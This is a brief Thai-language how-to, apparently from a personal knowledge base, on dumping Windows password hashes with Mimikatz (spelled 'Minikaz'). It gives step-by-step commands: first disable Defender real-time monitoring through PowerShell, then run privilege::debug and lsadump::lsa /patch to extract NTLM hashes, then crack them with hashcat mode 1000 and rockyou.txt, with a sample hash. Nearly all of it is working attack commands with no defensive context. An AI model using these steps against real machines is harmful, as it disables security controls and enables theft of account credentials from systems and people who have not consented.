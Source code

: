 # How to dump password on WindowsOS via Minikaz

Step 1: อันดับแรกจะต้องทำการปิด Antivirus บน Windows ก่อน โดยเราสามารถเข้าไปยัง Powershell ด้วยสิทธิ **Admin** แล้วพิมพ์คำสั่งดังนี้

```sh
# Disable Realtime Protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```
Step 2: จากนั้นเข้าไป Download ไฟล์ Minikatz.exe ได้ตาม 
[Link Download Minikaz](https://github.com/ParrotSec/mimikatz/tree/master/x64) ได้เลย

Step 3: Run Minikatz ด้วยสิทธิ Admin (ไม่ต้องตกใจหากมีการเตือนจาก Windows)
![](/KB/img/minikaz1.png)

Step 4: รันคำสั่ง

```sh
# ตรวจสอบว่าได้ผลลัพธ์เป็น "Privilege '20' ok" หรือไม่ หากไม่ได้ให้รันด้วยสิทธิ Admin
privilege::debug

# Dump hashes
lsadump::lsa /patch
```

Step 5: Download Hashcat [Link Download Hashcat](https://hashcat.net/hashcat/) 

```sh
# ตรวจสอบ Hashcat 
hashcat --help 
# เลือกใช้ Mode 1000 ซึ่งเป็นการ Crack NTLM Hash 
hashcat -m 1000 <hash> rockyou.txt --show

# Example
#hashcat -m 1000 7ce21f17c0aee7fb9ceba532d0546ad6 rockyou.txt --show
```

![](/KB/img/minikaz2.png)

Step 6: ถ้า Crack สำเร็จเราจะได้รหัสผ่านกลับมาตามภาพ 

![](/KB/img/minikaz3.png)


**Powered By** : 
Icesuntisuk 
๙ เม.ย.๖๗
